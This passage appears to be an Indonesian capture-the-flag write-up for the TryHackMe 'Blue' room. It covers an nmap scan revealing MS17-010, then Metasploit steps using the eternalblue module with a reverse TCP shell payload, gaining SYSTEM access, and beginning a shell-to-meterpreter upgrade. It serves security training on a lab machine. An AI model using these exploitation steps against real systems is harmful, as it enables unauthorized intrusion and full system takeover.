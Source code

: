 # CTF Blue
- TryHackMe Room: https://tryhackme.com/room/blue
- IP Machine: 10.10.88.234

## Nmap Report
- Baris perintah: `nmap -sV --script vuln <IP Machine>`

```sh
┌──(root㉿kali)-[/home/kali]
└─# nmap -sV --script vuln 10.10.88.234 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-29 02:38 EDT
Nmap scan report for 10.10.88.234
Host is up (0.20s latency).
Not shown: 991 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
|_ssl-ccs-injection: No reply from server (TIMEOUT)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 145.80 seconds
```
- Dari hasil scanning, diketahui bahwa service SMB memiliki jenis kerentanan **ms17-010**


## Metasploit
- Buka `msfconsole` di terminal

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%201.JPG)

- Cari modul untuk exploit jenis kerentanan ms17–010 dengan perintah `search ms17–010`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%202.JPG)

- Disini kita menggunakan modul **exploit/windows/smb/ms17_010_eternalblue** yang ada di list nomor 0. Jadi cukup gunakan perintah `use 0`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%203.JPG)

- Ketik `show options` untuk melihat daftar parameter yang perlu diisi pada modul tersebut

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%204.JPG)

- Gunakan perintah `set <Nama parameter> <Value>` untuk mengisi parameter. Isi parameter RHOSTS dengan IP Machnine dan isi parameter LHOST dengan IP tun0 pada komputer yang anda gunakan. Kemudian setting payload `set payload windows/x64/shell/reverse_tcp` sesuai petunjuk soal

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%205.JPG)

- Ketik `exploit` untuk memulai proses exploitasi

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%206.JPG)

- Proses exploitasi berhasil dan kita masuk sebagai **nt authority\system**

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%206.JPG)

- Tekan **Ctrl+Z** lalu ketik "y" untuk mengubah session 1 ke background

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%207.JPG)

- Cari modul untuk mengkonversi shell sistem ke shell meterpreter di metasploit. Kita bisa gunakan perintah `search shell_to_meterpreter`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%208.JPG)

- Karena hanya ada 1 modul, langsung kita gunakan modul tersebut dengan perintah `use 0`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%209.JPG)

- Ketik `show options` untuk melihat daftar parameter yang perlu diisi pada modul tersebut

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%2010.JPG)